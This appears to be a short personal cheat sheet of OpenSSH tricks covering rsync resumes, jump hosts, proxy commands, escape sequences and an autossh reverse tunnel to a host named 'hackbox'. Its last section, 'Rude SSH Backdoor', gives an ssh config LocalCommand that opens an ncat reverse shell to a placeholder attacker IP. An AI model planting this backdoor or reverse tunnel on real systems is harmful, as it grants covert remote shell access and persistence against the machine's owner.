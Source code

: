 <!-- TITLE: Openssh -->
<!-- SUBTITLE: A quick summary of Openssh -->

# Resuming an SCP transfer
```
rsync -e ssh \
--partial --append \
--progress \
remote.example.org:/path/to/file .
```

# Using a Jumphost
```
ssh -D 12344 -J me@jumphost root@unreachable-host
```

# Proxy Command
```
ssh -o ProxyCommand="ssh -W %h:%p bob@10.10.10.10" bob@remote
ssh -o ProxyCommand="ncat --proxy proxyhsot 1080 %h %p" bob@remote
```

# AUTOSSH
```
#Run on remote host
autossh -M 0 -o "ServerAliveInterval 30" -o "ServerAliveCountMax 3" -R 127.0.0.1:2222:127.0.0.1:22 hackbox

#Run on hackbox
ssh -P 2222 bob@localhost
get into remote box
```

# Stuff inside ssh
```
~? - help message
~# show forwarded connections.
~~ send excape character (by doing it twice)
?C - Command Line

CommandLineCommands
ssh> ?
Commands:
      -L[bind_address:]port:host:hostport    Request local forward
      -R[bind_address:]port:host:hostport    Request remote forward
      -D[bind_address:]port                  Request dynamic forward
      -KL[bind_address:]port                 Cancel local forward
      -KR[bind_address:]port                 Cancel remote forward
      -KD[bind_address:]port                 Cancel dynamic forward
```

# Rude SSH Backdoor
```
#cat ~/ssh/config

Hostname *
	PermitLocalCommand true
	Localcommand ncat -e /bin/bash <MYIP> 4141 &

```

